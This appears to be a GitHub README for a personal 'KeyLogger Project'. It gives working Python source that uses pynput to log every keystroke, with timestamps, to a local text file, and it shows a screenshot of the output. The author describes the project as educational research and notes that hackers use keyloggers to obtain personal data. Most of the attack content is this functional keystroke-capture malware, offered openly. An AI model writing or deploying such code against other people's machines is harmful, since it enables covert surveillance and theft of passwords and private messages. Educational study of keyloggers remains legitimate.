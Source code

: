 ##### [LinkedIn](https://www.linkedin.com/in/allana-gibson/)
##### [Merit Page](https://meritpages.com/Allana-Gibson/5963308)
##### [Resume](https://github.com/Allana-Gibson/Personal-Projects/files/8082930/Allana_Gibson_Resume.1.pdf)

## KeyLogger Project

- A keylogger is a type of monitoring software `or malware` that is used to collect every keystroke the user types.
#### Reasons for use:
1. Hackers trying to access **personal data**.
2. IT organizations attempting to troubleshoot **technical problems**.

- I did this for educational research ONLY.

### Here is the source code of my program (in python):

```markdown
from pynput.keyboard import Key, Listener
import logging

logKeystroke = ""

logging.basicConfig(filename=(logKeystroke + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                                   # prints the text with date & time
def on_press(key):
    logging.info(str(key)) #when a key is pressed it will store the info in file

with Listener(on_press=on_press) as listener:
    listener.join()

```
- The output will extract a `.txt` file on to the folder displaying every keystroke pressed.
- The user will have to terminate the program in `Task Manager` to end the application.

### Here is a picture of the output file:
![snippen2](https://user-images.githubusercontent.com/53357849/154188508-899104ba-b2a2-4264-bd5e-d8b9ad0b3fdc.png)
